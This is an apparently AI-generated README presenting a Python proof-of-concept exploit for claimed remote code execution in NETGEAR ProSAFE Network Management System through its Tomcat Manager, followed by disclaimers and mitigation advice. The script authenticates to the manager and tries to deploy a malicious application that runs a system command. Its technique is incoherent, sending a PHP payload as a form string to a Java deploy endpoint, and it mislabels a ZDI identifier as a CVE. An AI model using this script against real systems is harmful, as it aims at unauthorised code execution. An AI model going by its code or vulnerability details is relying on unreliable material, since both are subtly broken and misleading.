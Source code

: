 Here’s a structured README.md for the NETGEAR ProSAFE Network Management System Remote Code Execution (RCE) vulnerability PoC:

---

# Proof of Concept (PoC) for Remote Code Execution in NETGEAR ProSAFE Network Management System

This repository contains a Proof of Concept (PoC) script demonstrating a Remote Code Execution (RCE) vulnerability in NETGEAR ProSAFE Network Management System. The vulnerability is due to the use of a vulnerable version of Apache Tomcat within the product installer. This issue allows authenticated attackers to execute arbitrary code on affected installations.

## Vulnerability Description

**CVE-ID**: ZDI-CAN-22868

**Overview**: 
NETGEAR ProSAFE Network Management System contains a remote code execution vulnerability due to the use of a vulnerable version of Apache Tomcat. An attacker with authentication can exploit this vulnerability to execute arbitrary code on the affected system in the context of SYSTEM.

**Affected Versions**: 
- NETGEAR ProSAFE Network Management System versions with vulnerable Apache Tomcat versions.

**Authentication**: 
Required

## PoC Details

This PoC demonstrates how an attacker can exploit the vulnerability to achieve remote code execution. The specific flaw lies within the product installer due to the use of an outdated or vulnerable Apache Tomcat version.

### PoC Script

The following script illustrates how to exploit this RCE vulnerability. Ensure you have appropriate permissions before running this PoC.

**Important**: This PoC is for educational purposes only and should not be used for unauthorized or malicious activities.

```python
import requests

# Configuration
target_url = "http://target-ip:port/manager/html"  # Change this to the Tomcat Manager URL of the target
username = "admin"  # Change to the valid username
password = "password"  # Change to the valid password

# The payload to be executed on the remote server
payload = """
<?php
    // Payload to execute arbitrary PHP code
    system('whoami');
?>
"""

# Tomcat Manager URL path for deploying a new web application
deploy_url = f"{target_url}/deploy?path=/example&update=true"

# Headers for authentication
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

def exploit_rce(url, username, password, payload):
    """
    Exploit the RCE vulnerability by deploying a malicious web application.

    Args:
        url (str): The Tomcat Manager URL.
        username (str): The Tomcat Manager username.
        password (str): The Tomcat Manager password.
        payload (str): The malicious payload to be executed.
    """
    try:
        # Create a new web application with the malicious payload
        response = requests.post(
            url,
            headers=headers,
            data={
                "path": "/example",
                "war": f"<form method='post' enctype='multipart/form-data'><input type='file' name='file' value='{payload}'/></form>"
            },
            auth=(username, password)
        )
        
        # Print the response details
        print("Status Code:", response.status_code)
        print("Response Body:", response.text)
        
        if response.status_code == 200 and "Deployed application" in response.text:
            print("[+] Successfully deployed the malicious web application.")
        else:
            print("[-] Failed to deploy the malicious web application.")
    except requests.RequestException as e:
        print(f"[-] An error occurred: {e}")

if __name__ == "__main__":
    print(f"Exploiting RCE vulnerability at: {deploy_url}")
    exploit_rce(deploy_url, username, password, payload)
```

### Explanation

1. **Configuration**: Set `target_url` to the Tomcat Manager URL of the target system, and update `username` and `password` with valid credentials.
2. **Payload**: The payload is a simple PHP script that executes a system command to demonstrate code execution.
3. **Exploit Function**: The `exploit_rce()` function sends a POST request to deploy the malicious web application.
4. **Deployment**: The script attempts to deploy a new web application with the malicious payload and prints the result.

## Important Considerations

- **Permissions**: Ensure you have explicit permission to test this vulnerability on the target system. Unauthorized testing is illegal and unethical.
- **Testing Environment**: Conduct tests in a controlled environment to avoid impacting production systems.
- **Ethical Use**: Use this PoC responsibly and only in authorized contexts.

## Mitigation

To mitigate this vulnerability, take the following steps:

1. **Update Tomcat**: Upgrade to a version of Apache Tomcat that has patched the vulnerability.
2. **Secure Access**: Ensure Tomcat Manager and other sensitive interfaces are secured and accessible only to authorized users.
3. **Review Configurations**: Regularly review and harden the configuration of web applications and servers.

By following these steps, you can address the RCE vulnerability in NETGEAR ProSAFE Network Management System and enhance overall security.

---

This README.md provides a detailed description and PoC script for the RCE vulnerability, including setup instructions, considerations, and mitigation advice.